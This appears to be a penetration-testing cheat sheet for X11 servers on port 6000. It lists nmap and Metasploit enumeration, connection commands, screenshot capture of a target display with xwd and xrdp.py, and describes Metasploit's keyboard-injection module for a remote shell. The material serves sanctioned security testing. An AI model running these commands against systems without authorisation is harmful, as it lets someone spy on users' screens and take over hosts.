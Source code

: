 ```yaml
---
description: >-
  The X Window System (X11, or simply X) is a windowing system for bitmap
  displays, common on Unix-like operating systems. X provides the basic
  framework for a GUI environment.
---
```


# 6000 - X11

## Nmap

Script:

```
x11-access.nse
```

**Host script results**:&#x20;

```
|_ x11-access: X server access is granted
```

### Sensepost created the following nmap script

[https://github.com/sensepost/x11-active-displays](https://github.com/sensepost/x11-active-displays)

**Usage**

```
nmap -p6000 <host> --script x11-active-displays.nse
nmap -p6000 <host> --script x11-active-displays.nse --script-args=unsafe=1,dir="/home/<username>/Documents/"
```

**Output**

```
Host script results:
| x11-active-displays: X server access is granted
|     Active display
|_    Screenshot saved to /tmp/<ip>:<dp>.jpg
Host script results:
| x11-active-displays: X server access is granted
|_    No active display
```

## Metasploit

X11 No-Auth Scanner - Module scans for X11 servers that allow anyone to connect without authentication.&#x20;

```
auxiliary/scanner/x11/open_x11
```

## Connect to X11 server

**Xorg:**

```
sudo Xorg -terminate -query $REMOTE_HOST :1
```

**Using X:**&#x20;

```
X :1 -query s390vm.example.com
```

* To exit press 'ctrl+alt+enter'&#x20;

**To enable XDMCP in Remmina run the following:**&#x20;

```
sudo apt-get install remmina-plugin-xdmcp
```

## **Taking screenshot**

### **xwd**

XWD It is an X Window System utility that helps in taking screenshots. On our Kali System, we will use the xwd to take the screenshot of Xserver. This utility takes the screenshots in xwd format.&#x20;

To take a screenshot run:&#x20;

```
xwd -root -screen -silent -display 192.168.1.109:0 > screenshot.xwd
```

Here we have the screenshot captured by the xwd, but it is in .xwd format, so to view it we will have to convert it to a viewable format like .png&#x20;

**Note:** You may need to install `imagemagick` to convert to png, `convert` is not pre installed on kali

```
convert screenshot.xwd screenshot.png
```

On opening the png file we can see that the xwd tool has successfully captured the screenshot of the target system.&#x20;

### **xrdp**&#x20;

```
iron@kali2:/opt/xrdp$ python xrdp.py 192.168.0.62:0 
              _        
__  ___ __ __| |_ __   
\ \/ / '__/ _` | '_ \  
 >  <| | | (_| | |_) | 
/_/\_\_|  \__,_| .__/  
               |_|     
X11 Remote Desktop 
xrdp.py <host>:<dp> 
------------------------ 
Example: 
xrdp.py 10.0.0.10:0 
xrdp.py 10.0.0.10:0 --no-disp 
```

## **Gaining remote shell**

&#x20;we will use the X11 Keyboard Command Injection module of the Metasploit Framework. This module exploits open X11 Server by connecting and registering a virtual keyboard. Then the Virtual Keyboard is used to open an xterm or gnome-terminal and then type and execute the payload.&#x20;
